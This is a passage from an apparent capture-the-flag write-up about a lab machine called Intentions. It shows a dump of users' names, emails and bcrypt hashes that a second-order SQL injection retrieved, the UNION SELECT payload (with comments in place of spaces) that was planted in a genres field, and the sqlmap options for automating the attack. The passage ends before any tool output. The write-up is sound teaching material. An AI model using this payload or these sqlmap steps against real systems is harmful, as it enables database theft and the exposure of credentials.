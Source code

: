 ```
Prof. Devan Ortiz DDS:murray.marilie@example.com:0:$2y$10$I7I4W5pfcLwu3O/wJwAeJ.xqukO924Tx6WHz1am.PtEXFiFhZUd9S:food,travel,nature
Eula Shields:barbara.goodwin@example.com:0:$2y$10$0fkHzVJ7paAx0rYErFAtA.2MpKY/ny1.kp/qFzU22t0aBNJHEMkg2:food,travel,nature
Mariano Corwin:maggio.lonny@example.org:0:$2y$10$p.QL52DVRRHvSM121QCIFOJnAHuVPG5gJDB/N2/lf76YTn1FQGiya:food,travel,nature
Madisyn Reinger DDS:chackett@example.org:0:$2y$10$GDyg.hs4VqBhGlCBFb5dDO6Y0bwb87CPmgFLubYEdHLDXZVyn3lUW:food,travel,nature
Jayson Strosin:layla.swift@example.net:0:$2y$10$Gy9v3MDkk5cWO40.H6sJ5uwYJCAlzxf/OhpXbkklsHoLdA8aVt3Ei:food,travel,nature
Zelda Jenkins:rshanahan@example.net:0:$2y$10$/2wLaoWygrWELes242Cq6Ol3UUx5MmZ31Eqq91Kgm2O8S.39cv9L2:food,travel,nature
Eugene Okuneva I:shyatt@example.com:0:$2y$10$k/yUU3iPYEvQRBetaF6GpuxAwapReAPUU8Kd1C0Iygu.JQ/Cllvgy:food,travel,nature
Mrs. Rhianna Hahn DDS:sierra.russel@example.com:0:$2y$10$0aYgz4DMuXe1gm5/aT.gTe0kgiEKO1xf/7ank4EW1s6ISt1Khs8Ma:food,travel,nature
Viola Vandervort DVM:ferry.erling@example.com:0:$2y$10$iGDL/XqpsqG.uu875Sp2XOaczC6A3GfO5eOz1kL1k5GMVZMipZPpa:food,travel,nature
Prof. Margret Von Jr.:beryl68@example.org:0:$2y$10$stXFuM4ct/eKhUfu09JCVOXCTOQLhDQ4CFjlIstypyRUGazqmNpCa:food,travel,nature
Florence Crona:ellie.moore@example.net:0:$2y$10$NDW.r.M5zfl8yDT6rJTcjemJb0YzrJ6gl6tN.iohUugld3EZQZkQy:food,travel,nature
Tod Casper:littel.blair@example.org:0:$2y$10$S5pjACbhVo9SGO4Be8hQY.Rn87sg10BTQErH3tChanxipQOe9l7Ou:food,travel,nature
0xdf:0xdf@intentions.htb:0:$2y$10$YUmJGH/nZwMGYmrz.TqDHOtpq1VK4xrw87YtsEJhaobmQ23pY7AbW:')/**/UNION/**/SELECT/**/1,2,concat(name,':',email,':',password,':',genres),4,5/**/from/**/users#

```

I’ll note the top two, steve and greg, have the “admin” attribute set to 1.

### SQL Injection [sqlmap]

#### Identify

I’ve shown exploiting a complicated second-order SQL injection with `sqlmap` before, five years ago in [Nightmare](/2018/07/07/second-order-sql-injection-on-htb-nightmare.html#nightmare-sqli-with-sqlmap).

I can do all the steps above with `sqlmap`. I’ll need a couple things:
- Save request setting genres without any injection and only a single genre to a file, `genres.request`.
- Save a request fetching the user feed to a file, `feed.request`.

I’ll do this in Burp by right clicking and selecting “Copy to file”. This is preferred over giving it the URL because then the cookies and other headers will match.

The `sqlmap` syntax has updated over the last five years since Nightmare. `--second-order` is deprecated in favor of `--second-req`. I’ll give it `--tamper=space2comment` (sqlmap will fail without this for the reasons seen above, but it will also suggest trying this tamper). I’ll also give it `--technique=U` to limit to union injections. It will find the union without this, but it’ll go faster since I know this is possible. I will need to increase the `--level 5`, which is the max. With all of this, it finds the injection:

